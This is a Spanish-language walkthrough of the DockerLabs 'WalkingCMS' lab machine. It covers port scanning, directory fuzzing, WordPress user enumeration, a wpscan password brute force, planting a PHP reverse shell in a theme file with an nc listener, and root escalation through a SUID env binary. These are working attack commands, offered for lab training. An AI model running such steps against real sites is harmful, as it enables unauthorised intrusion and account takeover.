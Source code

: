 # WalkingCMS

## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping y ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.

```bash
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
```

Como tenemos abierto el puertos 80, vamos a comprobar la versión y lanzar unos scripts básicos para ver que información obtenemos.

```bash
nmap -sCV -p80 -vvv -oN versionPorts 172.17.0.2
```
- `-sCV`: Escaneo de versiones y vulnerabilidades.
- `-p80`: Escaneo de los puertos 80 (HTTP).
- `-vvv`: Salida muy detallada y verbosa.
- `-oN versionPorts`: Guarda los resultados en "versionPorts".
- `172.17.0.2`: Dirección IP del host escaneado.

```
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.57 ((Debian))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 02:42:AC:11:00:02 (Unknown)
```
Cómo únicamente tenemos el puerto 80 abierto vamod a enumerar desde la página web. Mientras vamos a ver la web dejamos corriendo **gobuster** para ir haciendo fuzzing.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php, txt, html
```
```
❯ gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php, txt, html
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.                    (Status: 200) [Size: 10701]
/.php                 (Status: 403) [Size: 275]
/wordpress            (Status: 301) [Size: 312] [--> http://172.17.0.2/wordpress/]
/.php                 (Status: 403) [Size: 275]
/.                    (Status: 200) [Size: 10701]
/server-status        (Status: 403) [Size: 275]
Progress: 661680 / 661683 (100.00%)
===============================================================
Finished
===============================================================
```
Ya vemos con el fuzzing que se trata de un wordpress, vamos a ver la página web y enumeramos con **wpscan**.

![wordpress](https://github.com/TBrux/DOCKERLABS/assets/168732212/46ea7c22-9d71-45cf-a4ec-5278d3473d36)

```bash
wpscan --url http://172.17.0.2/wordpress/ --enumerate u,vp
```
```
[+] mario
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://172.17.0.2/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
```
Encontramos el usuario **mario** y con ese usuario y con **wpscan** trataremos de hacer fuerza bruta a ver si podemos conseguir la contraseña.
```bash
wpscan --url http://172.17.0.2/wordpress/ -U mario -P /usr/share/wordlists/rockyou.txt
```
```
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - mario / love                                                                                                                                                                                                                   
Trying mario / badboy Time: 00:00:02 <                                                                                                                                                             > (390 / 14344782)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: mario, Password: love
```
Hemos encontrado la contraseña **love**, así que ahora comprobamos si tenemos acceso al panel de login para acceder con mario:love 
```bash
❯ gobuster dir -u http://172.17.0.2/wordpress/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,txt,html
```
```
❯ gobuster dir -u http://172.17.0.2/wordpress/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,txt,html

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/wordpress/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/index.php            (Status: 301) [Size: 0] [--> http://172.17.0.2/wordpress/]
/wp-content           (Status: 301) [Size: 323] [--> http://172.17.0.2/wordpress/wp-content/]
/wp-login.php         (Status: 200) [Size: 6580]
/license.txt          (Status: 200) [Size: 19915]
/wp-includes          (Status: 301) [Size: 324] [--> http://172.17.0.2/wordpress/wp-includes/]
/readme.html          (Status: 200) [Size: 7401]
/wp-trackback.php     (Status: 200) [Size: 136]
/wp-admin             (Status: 301) [Size: 321] [--> http://172.17.0.2/wordpress/wp-admin/]
/xmlrpc.php           (Status: 405) [Size: 42]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/wp-signup.php        (Status: 302) [Size: 0] [--> http://172.17.0.2/wordpress/wp-login.php?action=register]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```
Vemos que tenemos acceso al panel de **/wp-admin** y que con las credenciales obtenidas tenemos acceso.

![wp-admin](https://github.com/TBrux/DOCKERLABS/assets/168732212/4a7c0e8f-c08e-48f8-81d0-9bce0d4eeb08)

## Explotación.
Cuando tenemos acceso a un panel de wordpress, lo primero que deberíamos hacer, es ir a ver si podemos modificar una página del tema y así poner nuestro código malicioso y de esta forma podemos obtener una reverse shell.

![indexphp](https://github.com/TBrux/DOCKERLABS/assets/168732212/9d40c2ea-2fe3-4989-b474-eb060b2b2526)

Ahora lo único que tenemos que hacer es modificar alguna de las páginas, en mi caso voy a modificar el index con una reverse shell en php que encontramos en [GITHUB](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

Nos ponemos a la escucha en el puerto que hayamos indicado y nos dirigimos al recurso modificado.
```
❯ nc -lvnp 4443
listening on [any] 4443 ...
```
```bash
http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/index.php?cmd=id
```
Y obtenemos acceso a la máquina con el usuario **www-data**.
```
❯ nc -lvnp 4443
listening on [any] 4443 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 49278
Linux cf370cc70c6b 6.5.0-kali3-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.5.6-1kali1 (2023-10-09) x86_64 GNU/Linux
 15:22:54 up 42 min,  0 user,  load average: 0.30, 0.37, 0.52
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```
Hacemos un tratamiento de la tty para trabajar más cómodamente.
```bash
$ script /dev/null -c bash
CTRL + Z
❯ stty -raw echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

## Escalada de privilegios.
Para la escaldad de privilegios vamos a buscar binarios con permisos SUID desde la raíz.
```bash
find / -perm -4000 2>/dev/null
```
```
www-data@cf370cc70c6b:/$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/env
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/umount
www-data@cf370cc70c6b:/$
```
Vemos que tenemos el binario **/usr/bin/env**, que si buscamos en [GTFOBins](https://gtfobins.github.io/gtfobins/env/) podemos ver que podemos utilizarlo para lanzarnos una shell con los permisos de **root**.
```bash
./usr/bin/env /bin/sh -p
```
```
www-data@cf370cc70c6b:/$ ./usr/bin/env /bin/sh -p
./usr/bin/env /bin/sh -p
# whoami
whoami
root
# 
```

